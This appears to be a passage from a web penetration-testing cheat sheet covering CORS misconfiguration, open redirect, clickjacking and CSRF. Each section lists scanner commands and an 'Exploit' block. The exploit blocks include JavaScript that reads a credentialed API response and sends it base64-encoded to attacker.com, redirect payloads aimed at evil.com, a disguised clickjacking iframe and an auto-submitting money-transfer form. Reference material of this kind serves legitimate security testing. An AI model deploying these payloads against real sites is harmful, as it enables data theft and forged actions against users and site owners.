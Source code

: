 **Exploit:**
```javascript
// If ACAO: * with credentials
fetch('https://target.com/api/sensitive', {credentials: 'include'})
.then(r=>r.text()).then(d=>fetch('//attacker.com?data='+btoa(d)))
```

## **OPEN REDIRECT**
*Present when: Redirect destinations come from untrusted user input*

**Manual:** Modify redirect parameters to external domains
**Automated:**
```bash
openredirex -l urls.txt
nuclei -u target.com -t redirect/
```

**Exploit:**
```
?redirect=//evil.com
?url=https://evil.com
?next=/\evil.com
?return_to=//evil.com%2e.target.com
```

## **CLICKJACKING**
*Present when: X-Frame-Options/CSP frame-ancestors missing*

**Manual:** Check response headers for frame protection
**Automated:**
```bash
clickjacker -u target.com
nuclei -u target.com -t clickjacking/
```

**Exploit:**
```html
<iframe src="https://target.com/admin/delete?id=123" style="opacity:0.1"></iframe>
<div style="position:absolute;">CLICK HERE FOR FREE MONEY!</div>
```

## **CSRF (CROSS-SITE REQUEST FORGERY)**
*Present when: State-changing requests lack proper anti-CSRF tokens*
[Cross-Site Request Forgery (CSRF)](../../🌐%20Web%20Application/Request%20Forgery/Cross-Site%20Request%20Forgery%20(CSRF).md)
**Manual:** Remove CSRF tokens, check if requests still work
**Automated:**
```bash
xsrfprobe -u target.com
burp csrf scanner extension
```

**Exploit:**
```html
<form action="https://target.com/transfer" method="POST">
<input name="to" value="attacker">
<input name="amount" value="1000">
</form>
<script>document.forms[0].submit()</script>
```
